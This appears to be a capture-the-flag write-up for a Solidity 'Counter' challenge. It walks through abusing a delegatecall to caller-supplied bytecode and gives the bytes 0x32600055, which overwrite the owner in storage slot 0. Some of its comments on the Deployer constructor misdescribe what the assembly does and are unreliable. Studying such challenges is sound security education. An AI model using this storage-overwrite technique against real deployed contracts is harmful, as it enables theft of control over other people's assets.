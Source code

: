 # Counter

## Introduction
The smart contract is rather simple but focuses on how you can store change the owner of the address by using simple assembly opcode.

This is the source code
```solidity
pragma solidity ^0.8.13;

contract Deployer {
    constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
}
contract SmartCounter{
    address public owner;
    address public target;
    bool flag=false;
    constructor(address owner_){
        owner=owner_;
    }
    function create(bytes memory code) public{
        require(code.length<=24);
        target=address(new Deployer(code));
    }

    function A_delegateccall(bytes memory data) public{
        (bool success,bytes memory returnData)=target.delegatecall(data);
        require(owner==msg.sender);
        flag=true;
    }
    function isSolved() public view returns(bool){
        return flag;
    }
}
```

## Code Breakdown

**contract Deployer**

The deployer contract has a simple constructor that stores byte code into memory using this 
```solidity
constructor(bytes memory code) { assembly { return (add(code, 0x20), mload(code)) } }
```

Essentially, it stores the byte codes and return the starting memory address (0x20) as the first parameter and the length of the array as the second parameter.
```solidity
constructor(bytes memory code) {
    assembly {
        // Add 0x20 to the starting memory address of the code array
        // to skip the length prefix and get the first byte of the array
        let start := add(code, 0x20)

        // Load the length of the code array into memory
        let length := mload(code)

        // Return the code array as a bytes32 value
        return(start, length)
    }
}
```

**create(bytes memory code)**

It takes in any arbitrary bytes with a maximum length of 24. Next, it is stored into the contract ``Deployer`` and the address of that contract is stored in ``target``.

**A_delegateccall(bytes memory data)**

It takes in any arbitrary bytes and makes a low-level function call using ``target.delegatecall(data)``. Essentially, the function uses ``target`` to execute the ``data``.

## Hints
By default, Solidity stores a contract's state variables starting at ***slot0***. Therefore, the variable ``owner`` is stored at slot0. 
Now that we analysed the functions, here's a breakdown on what we should do.

1) Using solidity opcode, create a set of instruction to store attacker address into ***slot0***.

2) Using the ``create`` function to store the set of instructions into ``Deployer`` contract.

3) Call ``A_delegatecall`` function to execute the set of instructions and change attacker to owner

## Solutions
No attacker contract is required for this challenge. 

This is the set of instructions required to change owner of the contract. This store the address of the immediate caller of the current contract into slot0.
``` 
sstore(0x0, caller())
```

Convert the code above into opcode
```
CALLER       // Pushes the address of the immediate caller of the current contract onto the stack
PUSH1 0x00   // Pushes the storage slot number (0x00) onto the stack
SSTORE       // Stores the value on top of the stack (the original sender's address) in the specified storage slot
```

Convert the opcode int EVM binary and you'll get ``0x32600055``

Call the ``create`` function and chuck those binary into it.

![Create Function](./images/counter_1.png)


Once that is complete, send any arbitrary bytes into ``A_delegateccall``.

![A_delegatecall](./images/counter_2.png)


Once that is complete, the attacker will be the owner now.